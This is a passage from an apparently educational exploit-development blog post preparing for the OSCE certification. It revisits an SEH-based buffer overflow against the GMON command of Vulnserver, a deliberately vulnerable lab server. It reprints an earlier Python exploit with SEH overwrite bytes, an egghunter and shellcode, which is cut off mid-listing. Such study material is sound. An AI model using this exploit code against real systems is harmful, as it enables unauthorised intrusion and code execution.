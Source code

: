## Introduction

This series of posts will focus on the concepts I'm learning/practicing in preparation for [CTP/OSCE](https://www.offensive-security.com/information-security-training/cracking-the-perimeter/). In this series of posts, I plan on exploring:
+ fuzzing,
+ vanilla EIP overwrite,
+ SEH overwrite, and
+ egghunters.

Writing these entries will force me to become intimately familiar with these topics, and hopefully you can get something out of them as well! 

In this particular post, we will be revisiting the SEH-based overflow with the `GMON` command/parameter in Vulnserver, but this time with some self-imposed character restrictions. 

If you have not already done so, please read the first post of this series so that you can setup your environment, setup and use `boofuzz`, and become acquainted with some of the stack-based overflow concepts that are still relevant in this post. You can do so [here](https://h0mbre.github.io/Boofuzz_to_EIP_Overwrite/).

**This post will assume the reader is already familiar with how to attach processes in Immunity, use boofuzz, search for bad characters, and other knowledge domains covered in the first post of the series.**

## Background

If you have not done so, it's probably best that you read our previous egghunter approach to exploiting the 'GMON' command in Vulnserver with an SEH-based exploit [here](https://h0mbre.github.io/Egghunter_GMON_Vulnserver/). 

We've successfully performed an SEH-based overflow on the `GMON` command in two different ways, one with an egghunter and one without. 

In summary, our egghunter exploit code looked like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

Seh = '\x2b\x17\x50\x62'
nSeh = '\xeb\x06\x90\x90'
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x45\x47\x47\x48\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

egg = 'EGGHEGGH'
shellcode = ("\xdb\xcc\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x52\xbf\x36\x08\x50"
"\xc1\x31\x7a\x17\x83\xc2\x04\x03\x4c\x1b\xb2\x34\x4c\xf3\xb0"
"\xb7\xac\x04\xd5\x3e\x49\x35\xd5\x25\x1a\x66\xe5\x2e\x4e\x8b"
"\x8e\x63\x7a\x18\xe2\xab\x8d\xa9\x49\x8a\xa0\x2a\xe1\xee\xa3"
"\xa8\xf8\x22\x03\x90\x32\x37\x42\xd5\x2f\xba\x16\x8e\x24\x69"
"\x86\xbb\x71\xb2\x2d\xf7\x94\xb2\xd2\x40\x96\x93\x45\xda\xc1"
"\x33\x64\x0f\x7a\x7a\x7e\x4c\x47\x34\xf5\xa6\x33\xc7\xdf\xf6"
"\xbc\x64\x1e\x37\x4f\x74\x67\xf0\xb0\x03\x91\x02\x4c\x14\x66"
"\x78\x8a\x91\x7c\xda\x59\x01\x58\xda\x8e\xd4\x2b\xd0\x7b\x92"
"\x73\xf5\x7a\x77\x08\x01\xf6\x76\xde\x83\x4c\x5d\xfa\xc8\x17"
"\xfc\x5b\xb5\xf6\x01\xbb\x16\xa6\xa7\xb0\xbb\xb3\xd5\x9b\xd3"
"\x70\xd4\x23\x24\x1f\x6f\x50\x16\x80\xdb\xfe\x1a\x49\xc2\xf9"
"\x5d\x60\xb2\x95\xa3\x8b\xc3\xbc\x67\xdf\x93\xd6\x4e\x60\x78"
"\x26\x6e\xb5\x2f\x76\xc0\x66\x90\x26\xa0\xd6\x78\x2c\x2f\x08"
"\x98\x4f\xe5\x21\x33\xaa\x6e\x8e\x6c\xb5\xa9\x66\x6f\xb5\x34"
```